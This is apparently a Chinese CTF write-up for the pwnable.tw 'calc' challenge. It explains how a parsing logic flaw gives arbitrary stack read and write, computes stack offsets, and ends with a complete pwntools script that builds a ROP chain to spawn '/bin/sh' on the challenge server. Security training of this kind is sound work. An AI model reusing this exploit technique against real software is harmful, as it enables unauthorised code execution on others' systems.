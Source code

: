 这题实现了一个简单的计算器功能，主要是一个逻辑漏洞

在 get_expr() 中读取

在 parse_expr() 中处理

核心代码

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnablekr-calc-4.png)

运算函数

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-calc-2.png)

需要注意的是，这里处理的时候是以 num[0] 为基准来判断操作数的位置，而当我们输入的是运算符+操作数

例如 +300 的时候

```
num[0] = 1  num[1] = 300

a2 = "+"
```

此时 num[\*num - 1] += num[\*num]; 即 num[0] = num[0] + num[1] = 301

然后 num[0] -- ，所以最后输出给用户的值实际上是 num[300] ，这就造成了任意读

而如果我们构造 +300-100 就会对栈上的值运算后再输出，这就造成了任意写

通过 ida 可以看到，num 距离当前栈的起始位置为5A0h=1440字节，也就是1440/4=360个栈单元，而众所周知，返回地址是在当前ebp位置的前一个位置入栈，也就是说，返回地址距离 num 的地址为361个栈单元即num[360]

所以我们可以构造 ROP 链来修改栈内容，从而 get shell

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnableke-calc-3.jpg)

其中需要重点关注的是 "/bin/sh" 字符串的地址，我们能获得到当前ebp所指向栈的基址内的值，这个值是main函数的ebp值，也就是main函数的栈基址。

从下图可以看出，main函数的栈空间大小由main函数的基址决定，大小值为：

```
main_stack_size=main_ebp&0xFFFFFF0 - 16
```

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-calc-5.png)

目前可知“/bin/sh”字符串的地址（369）与返回地址（361）之间的距离为8，而main函数栈基址与返回值之间的距离为：

```
d_mainebp_ret=main_stack_size/4 + 1
```

也就推得“/bin/sh”字符串的地址为：

```
addr_binsh=main_ebp+(8-d_mainebp_ret)*4
```

exp

```python
from pwn import *

HOST = 'chall.pwnable.tw'

PORT = 10100

vals=[0x0805c34b,11,0x080701aa,0,0x080701d1,0,1,0x08049a21,0x6e69622f,0x0068732f]

con = remote(HOST,PORT)

print con.recv()

start=361

for i in range(0,6):

	con.send('+'+str(start+i)+'\n')

	val=int(con.recv(1024))

	diff=vals[i]-val

	if diff<0: #正负数注意符号

		con.send('+'+str(start+i)+str(diff)+'\n')

	else:

		con.send('+'+str(start+i)+'+'+str(diff)+'\n')

	resl=int(con.recv(1024))

	print (str(start+i)+': '+'%s'%hex(resl))

#addr of '/bin/sh'

con.send('+360'+'\n')

mebp=int(con.recv(1024))

mstacksize=mebp+0x100000000-((mebp+0x100000000) & 0xFFFFFFF0-16)
#这里+0×100000000是因为recv到的mebp是栈上的地址，被识别为负数，所以加上0x100000000修正，它表示main函数的基地址。

bin_sh_addr=mebp+(8-(mstacksize/4+1))*4

con.send('+367'+'\n')

val_367=int(con.recv(1024))

diff_367=bin_sh_addr-val_367

con.send('+367'+str(diff_367)+'\n')

resl=int(con.recv(1024))+0x100000000

print ('367: '+'%s'%hex(resl))

for i in range(7,10):

	con.send('+'+str(start+i)+'\n')

	val=int(con.recv(1024))

	diff=vals[i]-val

	if diff<0:

		con.send('+'+str(start+i)+str(diff)+'\n')

	else:

		con.send('+'+str(start+i)+'+'+str(diff)+'\n')

	resl=int(con.recv(1024))

	print (str(start+i)+': '+'%s'%hex(resl))

con.interactive("\nshell# ")

con.close()
```

